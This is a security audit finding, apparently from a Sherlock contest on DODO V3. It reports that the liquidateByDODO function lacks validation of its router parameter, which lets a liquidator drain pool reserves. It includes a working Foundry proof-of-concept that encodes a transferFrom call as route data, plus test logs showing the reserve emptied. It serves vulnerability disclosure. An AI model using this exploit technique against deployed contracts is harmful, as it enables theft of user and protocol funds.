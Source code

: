jprod15

high

# Liquidators can drain reserves

## Summary
Due to the fact that the liquidateByDODO function is missing a control check for the router address parameter, and the fact that D3Funding.sol sets approvals to type(uint256).max, a malicious liquidator is able to drain reserves
## Vulnerability Detail
      function borrow(address token, uint256 amount) external onlyOwner nonReentrant poolOngoing {//@audit-info D3Funding.sol
        // call vault's poolBorrow function
        ID3Vault(state._D3_VAULT_).poolBorrow(token, amount);
        // approve max, ensure vault could force liquidate
        uint256 allowance = IERC20(token).allowance(state._D3_VAULT_, address(this));
        if(allowance < type(uint256).max) {
            IERC20(token).approve(state._D3_VAULT_, type(uint256).max);//@audit-info max approval to vaul
        }

        _updateReserve(token);
        require(checkSafe(), Errors.NOT_SAFE);
        require(checkBorrowSafe(), Errors.NOT_BORROW_SAFE);
    }

--

    function liquidateByDODO(
        address pool,
        LiquidationOrder calldata order,
        bytes calldata routeData,
        address router
    ) external onlyLiquidator nonReentrant {
        uint256 toTokenReserve = IERC20(order.toToken).balanceOf(address(this));
        uint256 fromTokenValue = DecimalMath.mul(ID3Oracle(_ORACLE_).getPrice(order.fromToken), order.fromAmount);

        // swap using Route
        {
            IERC20(order.fromToken).transferFrom(pool, router, order.fromAmount);
            (bool success, bytes memory data) = router.call(routeData);
            if (!success) {
                assembly {
                    revert(add(data, 32), mload(data))
                }
            }
        }

        // the transferred-in toToken USD value should not be less than 95% of the transferred-out fromToken
        uint256 receivedToToken = IERC20(order.toToken).balanceOf(address(this)) - toTokenReserve;
        uint256 toTokenValue = DecimalMath.mul(ID3Oracle(_ORACLE_).getPrice(order.toToken), receivedToToken);
        
      

        require(toTokenValue.div(fromTokenValue) >= DISCOUNT, Errors.EXCEED_DISCOUNT);
        IERC20(order.toToken).safeTransfer(pool, receivedToToken);
        ID3MM(pool).updateReserveByVault(order.fromToken);
        ID3MM(pool).updateReserveByVault(order.toToken);
    }
as can see liquidateByDODO lack check the parameter router and this allow set arbitrary address 

Here is a demonstration of how a liquidator can drain reserves
Run this in D3VaultLiquidationTest.t.sol


    contract liquidator1 {
      //this contract is the liquidator 

     function updateReserveByVault(address token) external {

     }

    }

      

    liquidator1 liqui ;//@audit-info add this 
    function setUp() public {
        contextBasic();

        token2.mint(user1, 1000 ether);
        
        vm.prank(user1);
        token2.approve(address(d3Vault), type(uint256).max);

        liqui = new liquidator1(); //@audit-info add this 
        token3.mint(address(liqui), 1000 ether);//@audit-info add this 

        }
     function test_drain_LiquidateByDODO() public {
        contextBadDebt();
        vm.prank(vaultOwner);
        d3Vault.addLiquidator(address(liqui));
        vm.prank(address(liqui));
        d3Vault.startLiquidation(address(d3MM));
       
        console.log("reserve token3",d3MM.getTokenReserve(address(token3)));
        console.log("reserve token2",d3MM.getTokenReserve(address(token2)));
       
        
        vm.prank(address(d3MM));
        token2.approve(address(d3Vault), type(uint256).max);

         vm.prank(address(d3MM));
        token3.approve(address(d3Vault), type(uint256).max);

        vm.prank(address(liqui));
        token3.approve(address(d3Vault), type(uint256).max);


         LiquidationOrder memory order = LiquidationOrder(
            address(token3),
            address(token2),
            4 ether
        );

        bytes memory routeData = abi.encodeWithSignature(
            "transferFrom(address,address,uint256)",
            address(d3MM),
            address(d3Vault),
            token2.balanceOf(address(d3MM))//reserve from d3MM token2
        );

       
        console.log("balance before liquidator",token2.balanceOf(liquidator));
          vm.prank(address(liqui));

        d3Vault.liquidateByDODO(
            address(liqui),//arbitrary poll
            order,
            routeData,
            address(token2)//arbitrary router
            );
     
        console.log("reserve token2",token2.balanceOf(address(d3MM)));
        console.log("balance atfer liquidator",token2.balanceOf(address(liqui)));

    }


   

the resul 

        Running 1 test for test/DODOV3MM/D3Vault/D3VaultLiquidation.t.sol:D3VaultLiquidationTest
        [PASS] test_drain_LiquidateByDODO() (gas: 1017267)
        Logs:
        reserve token3 50000000000000000000
        reserve token2 5000000000000000000
        balance before liquidator 0
        toTokenValue  60000000000000000000
        fromTokenValue  4000000000000000000
        discount  15000000000000000000
        reserve token2 0
        balance atfer liquidator 5000000000000000000

        Test result: ok. 1 passed; 0 failed; finished in 10.88s


## Impact
reserves drained is very bad to the protocol
## Code Snippet
https://github.com/sherlock-audit/2023-06-dodo/blob/main/new-dodo-v3/contracts/DODOV3MM/D3Pool/D3Funding.sol#L20-L23

https://github.com/sherlock-audit/2023-06-dodo/blob/main/new-dodo-v3/contracts/DODOV3MM/D3Vault/D3VaultLiquidation.sol#L98-L105
## Tool used

Manual Review

## Recommendation
add a whitelist of routers 